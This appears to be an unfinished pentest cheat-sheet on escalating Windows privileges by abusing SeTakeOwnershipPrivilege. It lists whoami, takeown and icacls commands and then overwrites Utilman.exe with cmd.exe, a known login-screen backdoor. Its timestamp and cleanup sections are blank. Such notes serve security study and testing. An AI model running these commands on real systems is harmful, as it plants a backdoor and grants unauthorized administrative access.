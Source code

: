 # Living off the Land

## 01 - Enumerate

Enumerate in the current local username and look for `SeTakeOwnershipPrivilege`.

```
C:\> whoami /priv
```

## 02 - Exploit

TODO: Fill in the information

We'll take note of the timestamp before making modifications.

```
PS C:\>
```

Grant full access to any program let's use `Utilman.exe` as an example.

```
C:\> icacls C:\Windows\System32\Utilman.exe

C:\> takeown /f C:\Windows\System32\Utilman.exe

C:\> icacls C:\Windows\System32\Utilman.exe /grant <username>:F

C:\> copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.bkp

C:\> copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

## 03 - Cleanup

```
C:\> 
```

---
## References

- [VK9: [Privilege Escalation] Windows Privileges: SeTakeOwnership](https://vk9-sec.com/privilege-escalation-windows-privileges-setakeownership/)